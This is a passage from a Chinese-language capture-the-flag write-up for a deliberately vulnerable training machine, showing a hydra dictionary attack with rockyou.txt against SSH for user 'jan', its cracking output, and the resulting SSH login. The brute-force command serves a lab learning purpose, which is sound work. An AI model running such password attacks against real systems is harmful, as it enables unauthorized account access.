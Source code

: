 有了这些信息，我可以将开发人员“J”与“Jan”联系起来，将系统管理员“K”与“Kay”联系起来。因为据说 Jan 的系统密码很弱，所以最好尝试通过她的帐户访问系统。

## 初始访问

我接着使用`hydra`密码破解工具( [Kali Linux Tools n.d.](https://www.kali.org/tools/hydra/) )对用户`jan`发起字典攻击:

```
┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ hydra -l jan -P ./rockyou.txt basicpentestingjt.thm ssh -t 40
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at [redacted]
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4

[... snip ...]
```

片刻之后，我找到了一个有效的用户名和密码组合:

```
[... snip ...]

[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ssh://basicpentestingjt.thm:22/
[STATUS] 294.00 tries/min, 294 tries in 00:01h, 14344121 to do in 813:10h, 24 active
[STATUS] 161.67 tries/min, 485 tries in 00:03h, 14343935 to do in 1478:46h, 19 active
[22][ssh] host: **basicpentestingjt.thm   login: jan   password: [redacted]**
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 12 final worker threads did not complete until end.
[ERROR] 12 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at [redacted]

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$**
```

我现在有了`jan`的密码，可以用他们的凭证通过 SSH 访问系统:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ ssh jan@basicpentestingjt.thm**
The authenticity of host 'basicpentestingjt.thm' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? **yes**
Warning: Permanently added 'basicpentestingjt.thm' (ED25519) to the list of known hosts.
jan@basicpentestingjt.thm's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

[... snip ...]

Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
**jan@basic2:~$**
```
